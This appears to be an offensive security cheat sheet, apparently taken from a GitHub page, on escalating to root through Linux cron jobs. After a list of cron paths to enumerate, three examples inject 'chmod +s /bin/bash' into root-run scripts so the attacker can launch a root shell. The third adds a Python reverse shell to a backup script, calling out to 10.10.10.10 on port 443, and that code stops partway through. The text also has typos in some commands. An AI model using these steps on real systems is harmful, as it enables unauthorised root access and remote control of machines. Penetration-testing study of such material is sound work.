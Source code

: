 ```
```
# Cron Tabs & Scheduled Tasks

Cron jobs is a time-based job scheduler in Unix-like computer operating systems. Users that set up and maintain software environments use cron to schedule jobs to run periodically at fixed times, dates, or intervals

Enumeration

```
contab -l
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
```
Example 1

Privilege Escalation via Nonexistent File Overwrite

```
cat /etc/crontab
Output Example: * * * * * root systemupdate.sh
echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
chmod +x /home/user/systemupdate.sh
Wait a while
/bin/bash -p
id && whoami
```

Example 2

Privilege Escalation via Root Executable Bash Script

```
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/network-test.sh
echo "chmod +s /bin/bash" >> /usr/bin/local/network-test.sh
Wait a while
id && whomai
```

Example 3

Privilege Escalation via Root Executable Python Script Overwrite

Target

```
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.10.10",443)); 
os.dup2(s.fileno(),0);
```